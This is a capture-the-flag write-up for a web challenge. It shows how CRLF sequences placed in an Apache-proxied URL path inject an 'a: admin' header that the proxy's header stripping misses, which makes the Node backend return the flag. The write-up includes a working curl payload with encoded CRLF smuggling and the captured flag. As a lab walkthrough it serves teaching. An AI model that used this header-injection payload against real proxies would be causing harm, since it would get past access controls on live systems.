 # **Wonka CTF Challenge Writeup: Header Injection via Path-Based Request Smuggling**

**Challenge URL**: `https://wonka.chal.cyberjousting.com`  
**Category**: Web Exploitation  
**Difficulty**: Medium    
**Flag**: byuctf{i_never_liked_w1lly_wonka}

---

## **Challenge Overview**
The challenge consists of a two-tier web application:
1. **Frontend**: Apache HTTP server (port `1337`)  
   - Proxies requests to `/name/<input>` to the backend.  
   - Strips all `A/a` headers using `RequestHeader unset`.  
2. **Backend**: Node.js/Express server (port `3000`)  
   - Returns the flag if the request contains the header `a: admin`.  
   - Otherwise, it echoes back a sanitized `name` parameter.

**Objective**: Retrieve the flag by bypassing the frontend's header stripping mechanism.

---

## **Vulnerability Analysis**
The key vulnerabilities are:
1. **Apache RewriteRule Misconfiguration**  
   - The `RewriteRule` forwards raw path input to the backend without sanitizing newlines (`\r\n`).  
   - This allows **HTTP header injection** via the path parameter.  

2. **Header Stripping Bypass**  
   - The `RequestHeader unset A/a` directive only removes headers from the original request, not those injected later.  

3. **Backend Trusts Raw Input**  
   - The Node.js backend processes the smuggled headers as part of the HTTP request.

---

## **Exploitation Steps**
### **Step 1: Crafting the Malicious Request**
To bypass the frontend’s header stripping, we inject a fake HTTP request inside the path parameter:
```
/name/test HTTP/1.1\r\n
Host: wonka.chal.cyberjousting.com\r\n
a: admin\r\n
\r\n
```
- Encoded in a `curl` command:
  ```bash
  curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
  ```

### **Step 2: Why This Works**
1. The `%20` (space) and `%0d%0a` (CRLF) characters trick Apache into interpreting the path as a new HTTP request.  
2. The backend receives:
   ```
   GET /?name=test HTTP/1.1
   Host: wonka.chal.cyberjousting.com
   a: admin
   ```
3. Since the `a: admin` header is present, the backend returns the flag.

---

## **Proof of Concept (PoC)**
```bash
curl -i "https://wonka.chal.cyberjousting.com/name/test%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
```
**Expected Output**:
```http
HTTP/2 200 OK
...
byuctf{i_never_liked_w1lly_wonka}
```

---
